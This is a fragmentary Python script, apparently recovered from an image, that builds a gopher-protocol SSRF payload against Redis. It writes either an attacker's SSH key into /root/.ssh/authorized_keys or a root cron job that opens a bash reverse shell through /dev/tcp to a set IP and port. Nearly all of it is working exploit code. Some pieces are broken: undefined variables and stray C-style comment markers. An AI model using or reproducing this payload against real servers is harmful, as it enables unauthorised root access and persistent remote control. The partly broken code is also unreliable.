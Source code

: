 ```python
filename="authorized_keys"
ssh_pub="\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGd9qrfBQqsml+aGC/PoXsKGFhW3sucZ81fiESpJ+HSk1ILv+mhmU2QNcopiPiTu+kGqJYjIanrQEFbtL+NiWaAHahSO3cgPYXpQ+lW0FQwStEHyDzYOM3Jq6VMy8PSPqkoIBWc7Gsu6541NhdltPGH202M7PfA6fXyPR/BSq30ixoAT1vKKYMp8+8/eyeJzDSr0iSplzhKPkQBYquoiyIs70CTp7HjNwsE2lKf4WV8XpJm7DHSnnnu+1kqJMw0F/3NqhrxYK8KpPzpfQNpkAhKCozhOwH2OdNuypyrXPf3px06utkTp6jvx3ESRfJ89jmuM9y4WozM3dylOwMWjal root@kali\n\n"
path="/root/.ssh/"
*/

# 计划任务反弹shell  系统必须为Centos，定时任务权限问题：Centos--644  Ubuntu--600
/*
reverse_ip="192.168.163.132"
reverse_port="2333"
cron="\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/%s/%s 0>&1\n\n\n\n"%(reverse_ip,reverse_port)
filename="root"
path="/var/spool/cron"
*/


passwd=""

cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]


# 如果redis需要认证，就在cmd第一行插入认证命令
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
    
payload=protocol+ip+":"+port+"/_"  # "/_" gopher协议特性，会吃掉url后的一个字符

def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(payload)
```
